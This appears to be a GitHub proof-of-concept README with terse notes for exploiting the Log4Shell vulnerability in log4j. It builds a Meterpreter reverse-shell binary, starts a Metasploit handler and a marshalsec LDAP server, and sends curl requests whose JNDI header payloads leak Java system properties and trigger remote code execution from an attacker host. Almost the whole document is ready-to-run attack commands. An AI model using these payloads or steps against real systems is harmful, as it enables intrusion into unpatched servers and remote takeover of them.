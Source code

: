 # log4j-poc

Just a bunch of notes on how to exploit log4j / log4shell / CVE-CVE-2021-44228 to gain a meterpreter shell on Linux target

# Prepare attack environment

## Edit and compile Java payload
```
cd /path/to/www/html/
nano Log4jRCE.java
javac Log4jRCE.java
```

## Create msf executable
```
msfvenom -p linux/meterpreter/reverse_tcp LHOST=10.0.0.100 LPORT=4444 -f elf > met.elf
```

## Start HTTP server
```
python3 -m http.server 8888
```

## Start MSF multi handler
```
msfconsole
use exploit/multi/handler
set payload linux/meterpreter/reverse_tcp
exploit -j
```

## Start the LDAP server
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
apt install maven
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.0.0.100:8888/#Log4jRCE"
```

# Attack

## Information Discloure
```
curl 10.100.100.200:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.0.100:1389/${sys:java.version}}'
curl 10.100.100.200:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.0.100:1389/${sys:os.name}}'
curl 10.100.100.200:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.0.100:1389/${sys:user.name}}'
```

see more: https://dev.to/therceman/log4j-vulnerability-cheatsheet-m39

## RCE
```
curl 10.100.100.200:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.0.100:1389/Log4jRCE}'
```
